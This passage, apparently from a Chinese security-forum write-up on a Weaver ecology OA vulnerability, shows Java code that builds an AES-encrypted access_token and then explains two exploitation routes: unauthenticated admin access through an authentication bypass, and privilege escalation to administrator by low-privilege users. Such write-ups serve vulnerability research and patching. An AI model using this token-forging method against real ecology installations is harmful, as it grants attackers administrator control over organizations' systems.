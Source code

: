 ```java
            SecretKey var5 = var3.generateKey();  
            byte\[\] var6 = var5.getEncoded();  
            SecretKeySpec var7 = new SecretKeySpec(var6, "AES");  
            Cipher var8 = Cipher.getInstance("AES", "SunJCE");  
            byte\[\] var9 = var0.getBytes();  
            var8.init(1, var7);  
            var2 = var8.doFinal(var9);  
        } catch (NoSuchProviderException var10) {  
            var10.printStackTrace();  
        } catch (NoSuchAlgorithmException var11) {  
            var11.printStackTrace();  
        } catch (NoSuchPaddingException var12) {  
            var12.printStackTrace();  
        } catch (InvalidKeyException var13) {  
            var13.printStackTrace();  
        } catch (IllegalBlockSizeException var14) {  
            var14.printStackTrace();  
        } catch (BadPaddingException var15) {  
            var15.printStackTrace();  
        }  

        return var2 == null ? "" : parseByte2HexStr(var2);  
    }  
    private static String parseByte2HexStr(byte\[\] var0) {  
        StringBuffer var1 = new StringBuffer();  

        for(int var2 = 0; var2 < var0.length; ++var2) {  
            String var3 = Integer.toHexString(var0\[var2\] & 255);  
            if (var3.length() == 1) {  
                var3 = '0' \+ var3;  
            }  

            var1.append(var3.toUpperCase());  
        }  

        return var1.toString();  
    }  
}
```

运行后，会生成access\_token.

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9dd80290f94a34772a05ee9e20bfd59689077164.png)

2.5 利用说明
--------

该漏洞利用有两种方式：

1.低版本的ecology中未修复Api绕过鉴权的方法，可以使用该方法绕过鉴权访问到接口，从而实现未授权访问get admin

2.修复Api绕过鉴权后的版本~v10.48之间，可以用低权限用户调用该接口，实现用户提权，获得管理员权限。
